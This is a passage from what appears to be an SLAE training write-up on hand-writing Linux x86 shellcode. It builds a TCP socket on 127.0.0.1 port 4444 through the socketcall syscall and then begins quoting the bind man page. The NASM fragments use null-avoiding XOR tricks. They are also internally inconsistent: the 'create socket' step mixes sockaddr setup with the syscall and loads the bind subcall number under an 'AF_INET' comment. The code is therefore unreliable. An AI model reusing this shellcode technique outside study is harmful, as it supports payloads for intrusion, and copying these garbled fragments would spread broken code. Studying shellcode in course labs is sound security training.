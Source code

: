 The next values are that of the socket properties as defined. The integer values for type (SOCK_STREAM) and domain (AF_INET/PF_INET) can be found in the socket header file:

```bash
osboxes@osboxes:~/Downloads/SLAE$ cat /usr/include/i386-linux-gnu/bits/socket.h
SOCK_STREAM = 1,		/* Sequenced, reliable, connection-based
#define	PF_INET		2	/* IP protocol family.  */
```

The last argument value for int protocol is going to be ‘0’ to accept any protocol according to the man pages definition for socket: 

```nasm
        ; push socket values onto the stack
        push esi         ; push 0 onto the stack, default protocol
        push 0x1         ; push 1 onto the stack, SOCK_STREAM
        push 0x2         ; push 2 onto the stack, AF_INET
```

The newly created socket can be identified by storing the value of EAX into the EDX register as reference for a later stage (with the ability to use EAX in subsequent system calls):

```nasm
	mov edx, eax   	 ; save the return value
```

1st Syscall (Assembly code section):

```nasm
        ; 1st syscall - create socket (sockaddr_in struct)
	push eax
	push eax 	 ; 8 bytes of padding
	mov eax, 0xffffffff ; XOR IP address with this hex value (avoid NULL's contained in IP)
	mov ebx, 0xfeffff80 ; hex value of 127.0.0.1 XOR'd with 0xffffffff
	xor ebx, eax
	push ebx         ; IP address 127.0.0.1 is set
	push word 0x5c11 ; port 4444 is set
	push word 0x02   ; AF_INET
	; call socket(domain, type, protocol)
	xor eax, eax
	xor ebx, ebx
	mov ax, 0x66    ; hex value of 102
	mov bl, 0x02     ; AF_INET
	mov cl, 0x01     ; SOCK_STREAM
	int 0x80	 ; call the interrupt to create the socket, execute the syscall		
	mov ebx, eax     ; socket file descriptor
```

#### 2nd Syscall (Bind Socket to IP/Port in Sockaddr Struct)
-----

The definition of the bind syscall function in the man pages describes the arguments required:

```bash
osboxes@osboxes:~/Downloads/SLAE$ man bind

BIND(2)                                Linux Programmer's Manual                               BIND(2)

NAME
       bind - bind a name to a socket

SYNOPSIS
       #include <sys/types.h>          /* See NOTES */
       #include <sys/socket.h>

       int bind(int sockfd, const struct sockaddr *addr,
                socklen_t addrlen);
```